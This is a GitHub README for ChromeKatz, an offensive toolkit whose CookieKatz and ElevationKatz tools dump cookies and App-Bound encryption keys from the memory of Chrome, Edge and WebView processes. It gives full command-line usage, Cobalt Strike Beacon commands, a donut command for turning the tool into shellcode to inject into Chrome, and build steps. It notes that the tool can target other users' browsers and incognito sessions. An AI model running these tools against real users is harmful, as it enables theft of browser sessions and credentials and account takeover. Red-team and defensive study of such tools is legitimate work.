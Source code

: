 # ChromeKatz

ChromeKatz is a solution for dumping sensitive information from memory of Chromium based browsers.
As for now, ChromeKatz consists of three projects:
 1. CookieKatz - The cookie dumper
 2. CredentialKatz - Deprecated.. for now
 3. ElevationKatz - Get the decrpytion key from the elevation service

CookieKatz has an exe, Beacon Object File, and minidump parser available. And for the ElevationKatz executable and Beacon Object File.

CookieKatz has been completely revamped to use much more robust method for finding the cookies! New method supports older browser version as well.
There is now new flag /inject implemented to CookieKatz to defeat the App-Bound Encryption on relevant browsers!

## CookieKatz - Dump cookies directly from memory

CookieKatz is a project that allows operators to dump cookies from Chrome, Edge or Msedgewebview2 directly from the process memory.
Chromium based browsers load all their cookies from the on-disk cookie database on startup. 

The benefits of this approach are*:
 1. Support dumping cookies from Chrome's Incogntio and Edge's In-Private processes
 1. Access cookies of other user's browsers when running elevated
 1. Dump cookies from webview processes
 1. No need to touch on-disk database file
 1. DPAPI keys not needed to decrypt the cookies
 1. Parse cookies offline from a minidump file

These statements are still true on some browsers/applications. For latest versions of Chrome you will need to inject into the process.
    ... Our use the ElevationKatz

32bit browser installations are not supported and 32bit builds of CookieKatz are not supported either.

Currently only regular cookies are dumped. Chromium stores [Partitioned Cookies](https://developers.google.com/privacy-sandbox/3pcd/chips) in a different place and they are currently not included in the dump.

This solution consists of three projects, **CookieKatz** that is a PE executable, **CookieKatz-BOF** that is a Beacon Object File version and **CookieKatzMinidump** which is the minidump parser.

## Usage

NOTE! When choosing using PID to target, use commands /list or cookie-katz-find respectively to choose the right subprocess!

### CookieKatz

```text
Examples:
.\CookieKatz.exe
    By default targets first available Chrome process
.\CookieKatz.exe /edge
    Targets first available Edge process
.\CookieKatz.exe /pid:<pid>
    Attempts to target given pid, expecting it to be Chrome
.\CookieKatz.exe /webview /pid:<pid>
    Targets the given msedgewebview2 process
.\CookieKatz.exe /list /webview
    Lists available webview processes
.\CookieKatz.exe /inject
    Targets the current process. Use this flag when your are injecting CookieKatz to Chrome process.

TIP! If you need to inject CookieKatz into the Chrome process, you can turn the exe into shellcode using donut:
    .\donut.exe -a 2 --input <Path_to_CookieKatz.exe> -z 4 -b 1 -p "/inject" -t

Flags:
    /edge       Target current user Edge process
    /webview    Target current user Msedgewebview2 process
    /pid        Attempt to dump given pid, for example, someone else's if running elevated
    /list       List targettable processes, use with /edge or /webview to target other browsers
    /inject     Indicate that the process will run in the target process
    /out        Write output to file, default location is "C:\Users\Public\Documents\cookies.log"
    /help       This what you just did! -h works as well
```

### CookieKatz-BOF

```text
beacon> help cookie-katz
Dump cookies from Chrome or Edge
Use: cookie-katz [chrome|edge|webview] [pid]

beacon> help cookie-katz-find
Find processes for Cookie-Katz
Use: cookie-katz-find [chrome|edge|webview]
```

### CookieKatzMinidump

```text
Usage:
    CookieKatzMinidump.exe <Path_to_minidump_file>

Example:
    .\CookieKatzMinidump.exe .\msedge.DMP

To target correct process for creating the minidump, you can use the following PowerShell command:
    Get-WmiObject Win32_Process | where {$_.CommandLine -match 'network.mojom.NetworkService'} | select -Property Name,ProcessId
```

## ElevationKatz - Dump profile database key from memory

ElevationKatz lets operators to dump browser profile encryption key from memory to allow access for user's sensitive information.
This works by starting a new browser process suspended, setting up break points and dumping the key once the browser process receives it from the elevator service.

The benefits of this approach are:
 1. No admin access required
 1. No need to inject into other processes
 1. No writing files on disk

ElevationKatz will start a new browser process in suspended state and attach a debugger to it. Then it will scan the browser dll to find the instruction where the browser returns from call to **os_crypt::DecryptAppBoundString** and setting a breakpoint immediately after. Once the breakpoint is hit, the tool will dump the encryption key from the memory.

There are two breakpoint types which the operator may choose from: Software and Hardware breakpoints.
* Software breakpoint works by patching the instruction in the memory and overwriting the old one. This obviously has the downside of using WIN API WriteProcessMemory.
* Hardware breakpoints are set into registers of the executing thread directly. This avoids the use of WriteProcessMemory, but will require heavy use of pattern: OpenThread->SuspendThread->ResumeThread.

Additionally for HW breakpoints, there are two supported ways for thread enumeration to choose from: NtGetNextThread and CreateToolhelp32Snapshot. SW breakpoints do not need thread enumeration and therefore the /tl32 flag does not affect it.

### ElevationKatz

```text
Examples:
.\ElevationKatz.exe /chrome
    Starts a new chrome process using path: C:\Program Files\Google\Chrome\Application\chrome.exe
.\ElevationKatz.exe /chrome /hw
    Starts a new chrome process using path: C:\Program Files\Google\Chrome\Application\chrome.exe
    Will use Hardware breakpoints instead of the sofware ones
.\ElevationKatz.exe /edge
    Starts a new chrome process using path: C:\Program Files(x86)\Microsoft\Edge\Application\msedge.exe
.\ElevationKatz.exe /path:\"C:\Program Files\BraveSoftware\Brave - Browser\Application\brave.exe\" /module:chrome.dll
    Targets the Brave browser

Flags:
    /chrome                Target Chrome process.
    /edge                  Target Edge process.
    /hw                    Use Harware breakpoints instead of SW ones.
    /tl32                  Use CreateToolhelp32Snapshot to enumerate process threads when using with /HW flag
    /path:<path_to_exe>    Provide path to the process executable
    /module:<some.dll>     Provide alternative module to target
    /help                  This what you just did! -h works as well
```

## CredentialKatz - Dump credential manager contents from memory

### Deprecated

I made a report for Chromium project about the bug that the CredentialKatz was originally exploiting and they marked it as "Won't fix" and said that they don't care if the credentials linger in the memory.

Suddenly they did fix the bug in the exact way I proposed after the tool got published :3
https://issues.chromium.org/issues/352085708


# Build and Install

## Use precompiled binaries
Download the latest release build of the ChrokeKatz BOFs [here](https://github.com/Meckazin/ChromeKatz/releases/latest). The zip file includes compiled BOFs and the CNA script to run them.

## Build your own
You may build both projects on Visual Studio with Release or Debug configuration and x64 platform. 

BOF version has been developed with Cobalt Strike's Visual Studio template [bof-vs](https://github.com/Cobalt-Strike/bof-vs). This means that Debug configuration for the *-BOFs will generate an exe instead of the COFF file. You can read more about the use of the Visual Studio template [here](https://www.cobaltstrike.com/blog/simplifying-bof-development).

You can compile your own BOF with nmake in **x64 Native Tools Command Prompt for VS 2022**:
```text
nmake all
```

## Credits
- [Henkru](https://github.com/Henkru) for fixing the BOF version crashes and creating the CNA script
- [B3arr0](https://github.com/B3arr0) for testing the BOF version and helping to squash the bugs
- [TheWover](https://github.com/TheWover) for excellent PEB definitions!
- [0vercl0k](https://github.com/0vercl0k) for creating udmp-parser which is the core library for minidump parsing
